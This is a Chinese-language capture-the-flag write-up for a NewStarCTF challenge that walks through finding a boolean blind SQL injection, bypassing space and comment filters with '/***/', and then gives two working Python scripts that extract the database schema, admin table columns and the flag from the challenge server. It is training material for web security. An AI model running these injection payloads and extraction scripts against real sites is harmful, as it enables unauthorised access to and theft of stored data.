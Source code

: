# Week4 又一个SQL 200

### 0、知识点与工具

>   Sql注入

>   工具：burpsuite、postman





### 1、分析

>   sql注入的第三道题，因为做过之前的几道题，那么已经可以排出、堆叠、报错注入了，再出一样的就没意思了啊
>
>   那么就不难猜到可能是要bool值盲注了

>   **打开主页面可以发现有一个提示，也就是查询100可以查看提示**

![5](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221129084908.png)

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221129085154.png)

>   刚开始做的时候一顿操作，完全没看到这个提示，以至于大半天没找到注入点
>
>   因为测试其他注入点都没注入进去，最后剩余的注入点只能是这个了

>   对查询的进行抓包可以看到name的值，很明显这里可以进行测试

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221129085411.png)

>   经过测试过滤掉：`空格`、`/**/`
>
>   但是`/**/`可以使用`/***/`代替

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221129112920.png)

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221129113005.png)

>   然后因为`or`关键字没有被过滤，然后可以使用`or`来构造一下**bool盲注**，
>
>   首先mysql中**0是被认作是false的，非0的值是被认ture的**，那么首先可以构造`0 or 1`这个值，查看页面是否会正常显示

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221129112527.png)

>   可以看到页面可以正常显示的，因为`0 or 1`的bool值是ture，那么就正常显示了
>
>   那么再看看`0 or 0` 的效果

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221129112627.png)

>   **这两中情况就满足了bool盲注的条件**，然后因为一个一个试要好久，还是建议写Python脚本

贴两个脚本

```py
import requests
import string
import time
att=string.digits+string.ascii_letters+'}{-$_.^,'
# print(att)

flag=''

url='http://34f02f7b-f372-4385-b30d-5d637442481b.node4.buuoj.cn:81/comments.php?name='
for i in range(1,50):
    for a in att:
        # payload='0/***/or/***/(substr(database(),{},1)="{}")'.format(i,a)
        # payload='0/***/or/***/(substr((select/***/group_concat(table_name)/***/from/***/information_schema.tables/***/where/***/table_schema=database()),{},1)="{}")'.format(i,a)
        # payload='0/***/or/***/(substr((select/***/group_concat(column_name)/***/from/***/information_schema.columns/***/where/***/table_schema=database()/***/and/***/table_name="wfy_admin"),{},1)="{}")'.format(i,a)
        # payload='0/***/or/***/(substr((select/***/group_concat(column_name)/***/from/***/information_schema.columns/***/where/***/table_schema=database()/***/and/***/table_name="wfy_comments"),{},1)="{}")'.format(i,a)
        payload='0/***/or/***/(substr((select/***/text/***/from/***/`wfy_comments`/***/where/***/id=100),{},1)/***/like/***/binary/***/"{}")'.format(i,a)
        res=requests.get(url=url+payload)
        time.sleep(0.1)
        if "好耶！你有这条来自条留言" in res.text:
            flag+=a
            print(flag)
            break

print(flag)
#wfy
#wfy_admin,wfy_comments,wfy_information
#wfy_admin:id,username,password,cookie
#wfy_comments:id,text,user,name,display
#flag{We_0nly_have_2wo_choices}
```

```py
import requests
import time

url = 'http://4ca4ab9f-ef5f-435a-981d-52f9a0a7dcb0.node4.buuoj.cn:81/comments.php?name='
content = ''
for pos in range(500):
    min_num = 32
    max_num = 126
    mid_num = (min_num + max_num) // 2
    while (min_num < max_num):
    	# payload = '1/*!*/and/*!*/if(ord(mid(database(),{},1))>{},1,0)'.format(pos, mid_num)
    	# payload = '1/*!*/and/*!*/if(ord(mid((select/*!*/group_concat(table_name)/*!*/from/*!*/information_schema.tables/*!*/where/*!*/table_schema=\'wfy\'),{},1))>{},1,0)'.format(pos, mid_num)
    	# payload = '1/*!*/and/*!*/if(ord(mid((select/*!*/group_concat(column_name)/*!*/from/*!*/information_schema.columns/*!*/where/*!*/table_name=\'wfy_admin\'),{},1))>{},1,0)'.format(pos, mid_num)
    	payload = '1/*!*/and/*!*/if(ord(mid((select/*!*/group_concat(text)/*!*/from/*!*/wfy.wfy_comments),{},1))>{},1,0)'.format(pos, mid_num)
    	res_url = url + payload
    	resp = requests.get(url=res_url)
    	time.sleep(0.5)
    	if '好耶！' in resp.text:
    		min_num = mid_num + 1
    	else:
    		max_num = mid_num
    	mid_num = ((min_num + max_num) // 2)
    content += chr(min_num)
    print(content)

```

